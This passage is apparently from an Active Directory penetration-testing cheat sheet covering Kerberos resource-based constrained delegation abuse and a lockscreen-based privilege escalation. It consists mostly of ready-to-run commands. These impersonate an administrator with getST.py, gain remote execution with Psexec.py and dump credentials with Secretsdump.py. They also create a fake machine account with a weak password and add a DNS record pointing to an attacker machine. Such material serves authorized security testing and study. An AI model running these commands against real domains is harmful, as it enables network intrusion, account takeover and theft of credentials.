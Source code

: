 ````
- User should not be part of "Protected Users group" or accounts with the "This account is sensitive and cannot be delegated" right
```
Get-DomainUser | Where-Object {!($_.memberof -match "Protected Users")} | Where-Object {$_.useraccountcontrol -notmatch "NOT_DELEGATED"}
```

#### Impersonate any user and exploit
- Impersonate any user except those in groups "Protected Users" or accounts with the "This account is sensitive and cannot be delegated" right
```
getST.py <DOMAIN>/FAKE01@<TARGET FQDN> -spn cifs/<TARGET FQDN> -impersonate administrator -dc-ip <DC IP>
export KRB5CCNAME=administrator.ccache
python3 Psexec.py -k -no-pass <TARGET FQDN>
python3 Secretsdump.py -k <TARGET FQDN>
```

### Change lockscreen
- Requirements:
  - Low priv shell on a machine
  - An account with a SPN associated (or able to add new machines accounts (default value this quota is 10))
  - On the network, machines with WebClient running (some OS version had this service running by default or use the webclient starting trick from DTMSecurity). OneDrive, SharePoint and NextCloud also activate this on clients.
  - A DNS record pointing to the attacker’s machine (By default authenticated users can create records)
- https://research.nccgroup.com/2019/08/20/kerberos-resource-based-constrained-delegation-when-an-image-change-leads-to-a-privilege-escalation/

#### Check who can add computers to the domain
- If not already owning an account with SPN
```
(Get-DomainPolicy -Policy DC).PrivilegeRights.SeMachineAccountPrivilege.Trim("*") | Get-DomainObject | Select-Object name

Get-DomainObject | Where-Object ms-ds-machineaccountquota

cme ldap <DC IP> -d <DOMAIN> -u <USER> -p <PASS> -M maq
```

#### Create a new computer object
- https://github.com/Kevin-Robertson/Powermad
- https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py
- If not already owning an account with SPN
```
import-module powermad
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

python3 addcomputer.py -computer-name FAKE01 -computer-pass '123456' <DOMAIN>/<USER>:<PASS> -dc-ip <DC IP>
```

#### Create a DNS record pointing to the attacker's machine IP
- https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py
- https://github.com/Kevin-Robertson/Powermad/blob/master/Invoke-DNSUpdate.ps1
- When the tools throw errors like `NoSuchObject` try the `--legacy` or `--forest` with `dnstool.py` or the `-Partition` parameter from PowerMad.
```
dnstool.py -u <DOMAIN>\<USER> -a add -r <HOSTNAME> -d <ATTACKER IP> <DC IP>

$creds = get-credential
````